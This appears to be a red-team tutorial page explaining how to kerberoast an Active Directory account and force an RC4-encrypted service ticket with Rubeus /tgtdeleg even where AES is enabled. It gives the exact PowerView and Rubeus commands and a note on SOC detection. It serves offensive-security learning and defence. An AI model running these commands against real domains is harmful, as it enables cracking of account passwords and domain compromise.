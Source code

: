 # Kerberoasting: Requesting RC4 Encrypted TGS when AES is Enabled

It is possible to kerberoast a user account with SPN even if the account supports Kerberos AES encryption by requesting an RC4 ecnrypted \(instead of AES\) TGS which easier to crack.

## Execution

First off, let's confirm we have at least one user with an SPN set:

{% code title="attacker@victim" %}
```text
Get-NetUser -SPN sandy
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-37-30.png)

Since the user account does not support Kerberos AES ecnryption by default, when requesting a TGS ticket for kerberoasting with rubeus, we will get an RC4 encrypted ticket:

{% code title="attacker@victim" %}
```text
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-39-53.png)

If the user is now set to support AES encryption:

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-40-51.png)

By default, returned tickets will be encrypted with the highest possible encryption algorithm, which is AES:

{% code title="attacker@victim" %}
```text
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-58-37.png)

## Requesting RC4 Encrypted Ticket

As mentioned in the beginning, it's still possible to request an RC4 ecnrypted ticket \(if RC4 is not disabled in the environment, which does not seem to be common yet\):

{% code title="attacker@victim" %}
```text
F:\Rubeus\Rubeus.exe kerberoast /tgtdeleg
```
{% endcode %}

Even though AES encryption is supported by both parties, a TGS ticket encrypted with RC4 \(encryption type 0x17/23\) was returned. Note that SOCs may be monitoring for tickets encrypted with RC4:

![](../../.gitbook/assets/screenshot-from-2019-05-06-16-03-06.png)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/kerberoasting-revisited/" caption="" %}

